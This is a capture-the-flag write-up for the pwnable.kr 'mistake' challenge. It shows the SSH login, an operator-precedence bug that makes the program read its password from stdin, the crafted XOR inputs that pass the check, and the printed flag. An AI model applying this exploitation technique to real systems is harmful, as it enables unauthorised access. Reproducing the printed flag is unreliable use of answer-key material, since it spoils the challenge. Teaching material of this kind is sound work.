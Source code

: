 # mistake

1. Login into server with passwd: `guest`:
```
$ ssh mistake@pwnable.kr -p2222
$ scp -P2222 mistake@pwnable.kr:~/* .
```

2. There is a `operators priority` error in the code:
```
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){  <-- mistake here :)
		printf("can't open password %d\n", fd);
		return 0;
	}
```
As `<` operator has higher precedence priority than `=`, the result of the `open(..) < 0` will be always 0.
`fd = 0` and as file descriptor 0 is reserved for `stdin`, program will wait for stdin input to be read into `pw_buf`

I chose: `1111111111` for `pw_buf` and `0000000000` for `pw_buf2`.
XORing `0` by `1` will give `1` and the same in the other direction.
Running:
```
mistake@prowl:~$ ./mistake 0000000000
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(
```
I got the flag:

```
FLAG: {Mommy, the operator priority always confuses me :(}
```